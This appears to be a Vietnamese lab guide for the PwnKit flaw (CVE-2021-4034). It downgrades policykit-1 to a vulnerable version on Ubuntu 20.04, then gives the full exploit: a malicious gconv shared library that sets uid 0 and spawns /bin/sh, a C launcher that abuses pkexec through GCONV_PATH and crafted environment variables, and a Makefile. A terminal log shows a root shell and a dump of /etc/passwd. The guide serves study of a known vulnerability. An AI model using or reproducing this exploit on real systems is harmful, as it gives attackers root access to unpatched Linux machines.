 # 🛠️ Setup Môi Trường Khai Thác PwnKit (CVE-2021-4034)

## 📌 Mục tiêu
Tạo môi trường với phiên bản `pkexec` dễ bị khai thác, sử dụng kernel `5.4.0-107-generic` trên Ubuntu 20.04.

---

## Bước 1: Cài đúng phiên bản Kernel

Kiểm tra xem hệ thống đã có sẵn phiên bản kernel mong muốn chưa:

```shell
apt list --all-versions linux-image-5.4.0-107-generic
```

![image](https://hackmd.io/_uploads/SJ0f8aL6kg.png)

Cài đặt kernel và headers: 

```shell
sudo apt install linux-image-5.4.0-107-generic linux-headers-5.4.0-107-generic
```

![image](https://hackmd.io/_uploads/ryDIL6L61x.png)

---

## Bước 2: Kiểm tra các file có quyền SUID

```shell
find / -perm -4000 2>/dev/null
```

![image](https://hackmd.io/_uploads/rk1ZYp8Tkl.png)

Thấy thư viện `/usr/bin/pkexec` hiện hành. Tìm kiếm và xem phiên bản:

![image](https://hackmd.io/_uploads/By5NFTI61l.png)

---

## Bước 3: Kiểm tra và cài đúng phiên bản policykit-1

Phiên bản hiện tại:

```shell
dpkg -l | grep policykit-1
```

![image](https://hackmd.io/_uploads/Skce2TUpye.png)


Gỡ bản hiện tại:

```shell
sudo apt remove --purge policykit-1
```

![image](https://hackmd.io/_uploads/HyILnpIpkl.png)

Xem các phiên bản có thể cài:

```shell
apt-cache madison policykit-1
```

![image](https://hackmd.io/_uploads/ryx7nT8T1g.png)

Cài bản dễ bị khai thác:

```shell
sudo apt install policykit-1=0.105-26ubuntu1 libpolkit-agent-1-0=0.105-26ubuntu1 libpolkit-gobject-1-0=0.105-26ubuntu1
```

![image](https://hackmd.io/_uploads/HJ292aITJg.png)

---

## Bước 4: Chuẩn bị và khai thác

`evil-so.c`

![image](https://hackmd.io/_uploads/HJlbp5tRyg.png)


```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gconv() {}
void gconv_init() {
    setuid(0);
    setgid(0);
    setgroups(0);
    execve("/bin/sh", NULL, NULL);
}
```


`exploit.c`

![image](https://hackmd.io/_uploads/r1VfpcF01l.png)


```c
#include <stdio.h>
#include <stdlib.h>
#define BIN "/usr/bin/pkexec"
#define DIR "evildir"
#define EVILSO "evil"

int main() {
    char *envp[] = {
        DIR,
        "PATH=GCONV_PATH=.",
        "SHELL=ryaagard",
        "CHARSET=ryaagard",
        NULL
    };
    char *argv[] = { NULL };
    
    system("mkdir GCONV_PATH=.");
    system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);
    system("mkdir " DIR);
    system("echo 'module\tINTERNAL\t\tryaagard//\t\t" EVILSO "\t\t2' > " DIR "/gconv-modules");
    system("cp " EVILSO ".so " DIR);
    
    execve(BIN, argv, envp);
    return 0;
}
```

`Makefile`

![image](https://hackmd.io/_uploads/HJOQa9t01x.png)


```make
all:
        gcc -shared -o evil.so -fPIC evil-so.c
        gcc exploit.c -o exploit
clean:
        rm -r ./GCONV_PATH=. && rm -r ./evildir && rm exploit && rm evil.so
```

Biên dịch và chạy:

![image](https://hackmd.io/_uploads/BycAT9FA1e.png)


```shell
h13u@ubuntu:~/tmp$ ls
evil-so.c  exploit.c  Makefile
h13u@ubuntu:~/tmp$ make all
gcc -shared -o evil.so -fPIC evil-so.c
evil-so.c: In function ‘gconv_init’:
evil-so.c:9:5: warning: implicit declaration of function ‘setgroups’; did you mean ‘getgroups’? [-Wimplicit-function-declaration]
    9 |     setgroups(0);
      |     ^~~~~~~~~
      |     getgroups
evil-so.c:10:5: warning: null argument where non-null required (argument 2) [-Wnonnull]
   10 |     execve("/bin/sh", NULL, NULL);
      |     ^~~~~~
gcc exploit.c -o exploit
exploit.c: In function ‘main’:
exploit.c:23:5: warning: implicit declaration of function ‘execve’ [-Wimplicit-function-declaration]
   23 |     execve(BIN, argv, envp);
      |     ^~~~~~
h13u@ubuntu:~/tmp$ ls
evil.so  evil-so.c  exploit  exploit.c  Makefile
h13u@ubuntu:~/tmp$ ./exploit 
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
...
```


